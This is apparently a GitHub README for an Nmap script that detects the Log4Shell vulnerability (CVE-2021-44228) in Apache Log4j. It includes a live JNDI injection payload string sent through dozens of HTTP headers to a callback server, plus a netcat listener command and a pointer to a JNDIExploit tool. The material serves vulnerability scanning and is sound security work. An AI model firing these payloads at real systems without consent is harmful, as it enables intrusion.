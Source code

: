 # Nmap Log4Shell NSE script for discovery Apache Log4j RCE (CVE-2021-44228)

CVE-2021-44228 is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:

-  Lightweight Directory Access Protocol (LDAP)
-  Secure LDAP (LDAPS)
-  Remote Method Invocation (RMI)
-  Domain Name Service (DNS)

If the vulnerable server uses log4j to log requests, the exploit will then request a malicious payload over JNDI through one of the services above from an attacker-controlled server. Successful exploitation could lead to RCE.


## Installation

Locate where your nmap scripts are located on your system:

- for *nix system it might be `~/.nmap/scripts/` or `$NMAPDIR`
- for Mac it might be `/usr/local/Cellar/nmap/<version>/share/nmap/scripts/`
- for Windows it might be `C:\Program Files (x86)\Nmap\scripts`

Copy the provided script (log4shell.nse) into that directory run `nmap --script-updatedb` to update the nmap script DB.


## Usage

    nmap --script log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p 8080 172.17.42.1 
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-13 21:26 CET
    Nmap scan report for 172.17.42.1
    Host is up (0.000096s latency).

    PORT     STATE SERVICE
    8080/tcp open  http-proxy
    | log4shell: 
    |   (!) Sended payload ${jndi:ldap://172.17.42.1:1389/log4shell/127.0.0.1/8080} using HTTP headers:
    |   
    |    - X-Api-Version (200)
    |    - User-Agent (200)
    |    - Cookie (200)
    |    - Referer (200)
    |    - Accept-Language (200)
    |    - Accept-Encoding (200)
    |    - Upgrade-Insecure-Requests (200)
    |    - Accept (200)
    |    - upgrade-insecure-requests (200)
    |    - Origin (200)
    |    - Pragma (200)
    |    - X-Requested-With (200)
    |    - X-CSRF-Token (200)
    |    - Dnt (200)
    |    - Content-Length (200)
    |    - Access-Control-Request-Method (200)
    |    - Access-Control-Request-Headers (200)
    |    - Warning (200)
    |    - Authorization (200)
    |    - TE (200)
    |    - Accept-Charset (200)
    |    - Accept-Datetime (200)
    |    - Date (200)
    |    - Expect (200)
    |    - Forwarded (200)
    |    - From (200)
    |    - Max-Forwards (200)
    |    - Proxy-Authorization (200)
    |    - Range, (200)
    |    - Content-Disposition (200)
    |    - Content-Encoding (200)
    |    - X-Amz-Target (200)
    |    - X-Amz-Date (200)
    |    - Content-Type (200)
    |    - Username (200)
    |    - IP (200)
    |    - IPaddress (200)
    |    - Hostname (200)
    |   
    |_  Inspect the callback server (172.17.42.1:1389) or web-application (127.0.0.1:8080) logs

#### Arguments

- `log4shell.callback-server`: The callback server (eg. `172.17.42.1:1389`)
- `log4shell.http-headers`: Comma-separated list of HTTP headers (eg. `X-Api-Version.User-Agent,Referer`)


### Method A:

Download JNDIExploit from GitHub (https://github.com/feihong-cs/JNDIExploit)

Start JNDIExploit server:

    java -jar JNDIExploit.jar

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See JNDIExploit output for see the received LDAP query (Log4Shell/{target host}/{target port})

    [+] Received LDAP Query: log4shell/127.0.0.1/8080
    [!] Invalid LDAP Query: log4shell/127.0.0.1/8080

### Method B:

Listen a TCP port with netcat (or ncat):

    ncat -v -k -e /bin/true -l 1389

Run Nmap with --script log4shell.nse script

    nmap --script log4shell.nse [--script-args log4shell.callback-server=127.0.0.1:1389] [-p <port>] <target>

See the target IP address in netcat (or ncat) output:

    Ncat: Connection from 172.17.0.2.
    Ncat: Connection from 172.17.0.2:38898.

# Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of nmap-log4shell for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


# License
The project is licensed under MIT License.


# Author

- Giuseppe Di Terlizzi (giterlizzi)
